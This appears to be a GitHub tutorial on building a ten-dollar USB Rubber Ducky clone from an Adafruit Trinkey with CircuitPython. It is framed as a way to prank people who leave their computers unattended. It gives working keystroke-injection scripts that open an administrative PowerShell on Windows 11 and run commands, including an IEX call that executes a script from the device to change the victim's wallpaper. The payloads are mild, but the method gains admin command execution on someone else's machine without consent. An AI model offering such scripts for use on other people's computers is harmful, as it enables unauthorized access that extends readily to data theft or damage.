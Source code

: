 ```yaml
---
tags: []
---
```

Ever wanted to prank someone by changing their wallpaper or running a script when they walk away from their computer? It's a lot easier than you think! I will show you how to create your own USB Rubber Ducky for just \$10, a fraction of the cost of Hak5's \$70 Rubber Ducky!

We'll use the **Adafruit Trinkey QT2040 - RP2040** and CircuitPython to make a fully functional "keyboard injection" tool that can automate tasks, execute scripts, and more.

---
## Materials You'll Need

1. [Adafruit Trinkey QT2040 - RP2040](https://www.adafruit.com/product/5056)
2. A computer with USB ports.
3. Basic programming tools like a text editor.

---

## Step 1: Set Up CircuitPython

1. **Download CircuitPython**  
    Visit the [Adafruit CircuitPython page](https://circuitpython.org/board/adafruit_qt2040_trinkey/) and download the latest `.uf2` file for the QT2040 Trinkey.  (**9.2.1**)
    ![CircuitPython Download](image1.png)
    
2. **Put the Trinkey into Bootloader Mode**
    - Hold down the **BOOT/BOOTSEL** button (red in the image below).
![[buttons.jpg]]
    - While holding, press and release the **Reset** button (blue) and connect the Trinkey to your computer.
    - Continue holding the **BOOT/BOOTSEL** button until the `RPI-RP2` drive appears.  
        ![Bootloader Mode](image2.png)
3. **Copy the `.uf2` File**  
    Drag and drop the `.uf2` file onto the `RPI-RP2` drive. The device will restart, and you should now see a new drive labeled `CIRCUITPY`.  
    ![Drive Ready](image3.png)
    
4. **Prepare for Coding**
    - If you are missing a file named `code.py` on the `CIRCUITPY` drive, create it.
    - If you are missing a folder named `lib` inside the `CIRCUITPY` drive, create it.  
    - Create a folder named `scripts` inside the `CIRCUITPY` drive for our scripts.
	![[image.png]]

---

## Step 2: Safe Mode

By default, the USB will try to run code every time you plug it in to a device (duh!). While we work on it we don't want this, because it will also run anytime one of it's files changes. To bypass this, when you plug in the device click the `RESET` button twice and the device should flash yellow 3 times, signaling it is in Safe mode. If you need a refresher on which button that is, please look at Step 1 again.

---

## Step 3: Install Necessary Libraries

1. Download the **CircuitPython 9.x Library Bundle** from [Adafruit Libraries](https://circuitpython.org/libraries).
2. Extract the bundle and copy these files to your `CIRCUITPY` drive:
    - **`adafruit_hid`** folder (for USB HID functionality)
    - **`adafruit_ducky.mpy`** (for Rubber Ducky script support, place this in the `lib` folder).

---

## Step 4: Write our `code.py`

Open the `code.py` file and paste in the following Python code:

```python
from adafruit_hid.keyboard_layout_us import KeyboardLayoutUS
from adafruit_hid.keyboard import Keyboard
import adafruit_ducky
import usb_hid
import time

time.sleep(1)

keyboard = Keyboard(usb_hid.devices)
keyboard_layout = KeyboardLayoutUS(keyboard)

duck = adafruit_ducky.Ducky("scripts/ducky.txt", keyboard, keyboard_layout)

while True:
    result = duck.loop()
    if not result:
        break
```

**Code Explanation**
We first import the libraries we installed when we copied over the files to `lib`. Then we have the USB sleep for a second to let it boot up. We create a `Keyboard` object and a `KeyboardLayoutUS` from the `Keyboard` object. We can then create a `Ducky` object from those two, and we point it to where our ducky script will be on the drive.

Now that we have our variables, we then loop through the ducky script line by line until the script ends!

---

## Step 5: Writing the Ducky Script

1. Create a new file called `ducky.txt` inside of our `scripts` folder on the `CIRCUITPY` drive and paste this in:
```
GUI x
DELAY 500
STRING a
DELAY 500
TAB
DELAY 100
TAB
DELAY 100
TAB
DELAY 500
ENTER
DELAY 1000
STRING echo "you've been hacked!" > ([Environment]::GetFolderPath("Desktop") + "\hacked.txt"); exit;
ENTER
```
2. This script opens an administrative PowerShell session on Windows 11 and creates a text file on the desktop named `hacked.txt`. This takes about ~5 seconds to execute on my laptop.
![Ducky Script Showcase](video1.mp4)

Try it out! Unplug your USB and plug it back in to see it work!

---

## Advanced Use Case: Changing the Wallpaper

Now that you've had a taste! Let's try doing some funny PowerShell stuff!

Find a funny image you want to make your friends wallpaper. I'm going to use this one:
![[wallpaper.jpg]]

Create a new folder on your `CIRCUITPY` called `resources` and put your image there! Make sure it's named `wallpaper.jpg`.
### Step 1: PowerShell Time!

Create a new text file in `scripts` called `iexscript.txt` on the `CIRCUITPY` drive and paste the following in:

```powershell
$WallpaperPath = ((Get-Volume -FileSystemLabel 'CIRCUITPY').DriveLetter + ":\resources\wallpaper.jpg")

Add-Type @"
using System.Runtime.InteropServices;
public class Wallpaper {
    [DllImport("user32.dll", CharSet = CharSet.Auto)]
    public static extern int SystemParametersInfo(int uAction, int uParam, string lpvParam, int fuWinIni);
}
"@

[Wallpaper]::SystemParametersInfo(0x0014, 0, $WallpaperPath, 0x01 -bor 0x02)
exit
```

**Code Explanation**
This is a simple PowerShell script that we are going to call with our ducky script! It creates a C# object that contains code to replace a user's wallpaper and then calls it in PowerShell!
### Step 2: Back to `ducky.txt`!

Open your `ducky.txt` inside of your `scripts` folder in the `CIRCUITPY` drive, delete what you have and paste in the following:
```
GUI x
DELAY 500
STRING a
DELAY 500
TAB
DELAY 100
TAB
DELAY 100
TAB
DELAY 500
ENTER
DELAY 1000
STRING IEX (Get-Content ((Get-Volume -FileSystemLabel 'CIRCUITPY').DriveLetter + ":\scripts\iexscript.txt") -Raw);
ENTER
```

This code will (again) open an administrative PowerShell, but this time it will use `IEX`. Essentially `IEX` will execute the statement after it, and the whole `Get-Content` thing basically finds our cool `iexscript.txt` file on our USB and give it to `IEX` and `IEX` runs it! **Make sure you have a `resources` folder and a `wallpaper.jpg` file inside of it or this script will not work!**

Try it out! Unplug your USB and plug it in to see it work!

![Wallpaper Showcase](video2.mp4)

---

Congratulations! You're now a master hacker and can prank your friends by changing their wallpaper!

---

Please reach out to me if you have any comments or feedback! Contact: [sstock2005.business@gmail.com](mailto:sstock2005.business@gmail.com)